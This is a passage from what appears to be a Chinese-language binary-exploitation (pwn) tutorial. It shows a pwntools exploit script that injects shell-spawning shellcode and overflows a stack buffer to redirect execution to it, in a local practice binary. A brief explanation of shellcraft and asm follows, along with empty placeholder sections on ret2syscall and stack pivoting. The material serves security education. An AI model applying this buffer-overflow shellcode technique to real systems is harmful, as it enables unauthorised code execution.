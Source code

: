对应的exp：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

p.send(asm(shellcraft.sh()).ljust(0x1000, b"\x00"))

payload = b"A" * 0x38
payload += p64(0xDEAD0000)
p.send(payload)

p.interactive()
```

上面这个exp中，`shellcraft.sh()`函数用于生成获取shell的shellcode的汇编指令，而`asm`函数用于将汇编指令转化为机器码。

### ret2syscall

咕咕咕



## 栈迁移

咕咕咕
